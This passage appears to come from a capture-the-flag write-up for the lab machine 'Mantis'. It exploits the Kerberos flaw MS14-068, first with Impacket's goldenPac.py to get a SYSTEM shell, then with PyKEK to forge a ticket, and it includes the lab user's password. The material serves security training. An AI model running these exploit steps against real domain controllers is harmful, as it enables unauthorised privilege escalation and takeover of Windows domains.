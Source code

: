 Lets try this account with another impacket tool, goldenPac, against the kerberos on this machine. First add these two lines to /etc/hosts
```
10.10.10.52  mantis.htb.local
10.10.10.52  htb.local
```
Then we can just run it for a system shell.
```
root@sushi:~# goldenPac.py htb.local/james@mantis.htb.local
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file cnNMpQyo.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service EWoX on mantis.htb.local.....
[*] Starting service EWoX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### PyKek 

So we can also exploit this Kerberos using PyKEK by Bidord, to start make sure this is in /etc/hosts
```
10.10.10.52 mantis.htb.local
10.10.10.52 htb.local
```

And this in /etc/resolv.conf
```
nameserver 10.10.10.52
```

Then we get James's SID with rpcclient
```
root@sushi:~#rpcclient -U james 10.10.10.52
Enter james's password: J@m3s_P@ssW0rd!
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103
```
Clone PyKEK, then create the golden ticket and copy it to /tmp
```
root@sushi:~# git clone https://github.com/bidord/pykek && cd pykek
root@sushi:~# python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
Password:J@m3s_P@ssW0rd!

root@sushi:~# cp TGT_james@htb.local.ccache /tmp/krb5cc_$(echo $UID)
```
